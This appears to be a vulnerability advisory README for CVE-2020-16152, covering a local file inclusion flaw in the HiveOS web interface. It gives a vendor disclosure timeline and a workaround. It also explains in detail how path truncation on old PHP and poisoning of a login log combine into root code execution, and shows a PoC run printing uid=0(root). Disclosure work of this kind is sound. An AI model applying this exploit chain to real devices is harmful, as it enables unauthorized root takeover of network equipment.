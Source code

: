 # CVE-2020-16152

## Summary
|      []()       |                                          |
| --------------- | ---------------------------------------- |
| Product vendor  | Aerohive Networks / Extreme Networks     |
| Product name    | HiveOS / IQ Engine                       |
| Product Version | Tested on 10.0r8a build-242466 and older |

The Aerohive/Extreme Networks HiveOS administrative webinterface (_NetConfig_) is vulnerable to LFI because it uses an old version of PHP vulnerable to string truncation attacks. An attacker is able to use this in conjunction with log poisoning to gain _root_ rights on a vulnerable access point.

As a work-around it is possible to disable the web interface with the following command: `no system web-server hive-UI enable` to protect against this vulnerability.

## Disclosure timeline:
|      []()       |                                          |
| --------------- | ---------------------------------------- |
| 2019/02/17 | Issue was reported to Aerohive Networks |
| 2019/02/19 | Acknowledgement issue was received by vendor, work around suggested by vendor (disable web interface) |
| 2019/02/25 | Confirmation of issue by vendor |
| 2019/03/18 | Ping? |
| 2019/05/30 | Ping? |
| 2019/06/03 | Vendor suggests a phonecall, replied with phone details. No call was received |
| 2019/08/12 | Ping? Vendor replied issue is escalated internally |
| 2019/09/23 | Ping? |
| 2019/09/25 | Vendor replies the LFI issue has not been addressed yet |
| 2020/07/30 | Found issue is still not fixed in HiveOS 10.0r8a build-242466 which dates from 05/2020. Reserved CVE and communicated 2020/09/01 deadline for publication unless a fix is actively being worked on |
| 2020/09/01 | Still no reply from vendor, release of details and PoC |

## Details
The `_page` parameter used for calls to `action/AhBaseAction.class.php5` as referenced by url `/action.php5` is used to dynamically load a PHP class that is used for a page as we can see in the code snippet below (`$pageName` is taken from `$_POST['_page']`):
```php
protected function getAccess($pageName,$actionType) {
  $filename = $pageName.'Access.class.php5';
  $classname = $pageName.'Access';
  if (include_once $filename) {
    require_once $filename;
    return new $classname($this->user,$actionType);
  }
  ...
}
```
As we can see there is no prefix for this filename making is possible to traverse path to arbitrary files. However because we're presented with a suffix it's not possible to include just any file. Since the version of PHP on the access point is quite old, we can actually work around this ([more info)](https://www.ush.it/2009/02/08/php-filesystem-attack-vectors/):
```
$ php-cgi -v
PHP Warning:  PHP Startup: Cannot dynamically load sockets.so - dynamic modules are not supported in Unknown on line 0
PHP 5.2.17 (cgi-fcgi) (built: May 28 2020 23:36:34)
Copyright (c) 1997-2010 The PHP Group
Zend Engine v2.2.0, Copyright (c) 1998-2010 Zend Technologies
```
By filling the path with enough `/` characters we can make sure the `Access.class.php5` suffix is completely truncated and are free to include arbitrary files.
Because failed login attempts are logged to `/tmp/messages` and include the submitted username we can use the login page to poison `/tmp/messages` and then run code from it with the LFI attack listed above.
Although the webserver itself is running a low privileged user the `php-cgi` instance used by `hiawatha` is actually running as _root_ which means all php code is executed as root:
```
$ ps | egrep "php|hiawatha"
 2237 root      9980 S    /usr/local/bin/php-cgi -b 127.0.0.1:2008
12088 admin    20840 S    /usr/local/sbin/hiawatha
```

## PoC
```
$ ./CVE-2020-16152.py 192.168.0.166 'echo -e "\n\n";id' | tail
2020-08-30 13:56:28 notice  root: ntpclient: [ntpclient]Set time - Sun Aug 30 13:56:28 GMT+1:00 2020
2020-08-30 13:56:28 notice  root: Connect [0.aerohive.pool.ntp.org] successful
2020-08-30 13:56:54 info    ah_dcd: application: get track-ip trigger access console request: cancel.
2020-08-30 13:57:00 notice  root: ntpclient: [ntpclient]Set time - Sun Aug 30 13:57:00 GMT+1:00 2020
2020-08-30 13:57:00 notice  root: Connect [0.aerohive.pool.ntp.org] successful
2020-08-30 13:57:31 notice  ah_webui: security: Admin "<


uid=0(root) gid=0(root)

```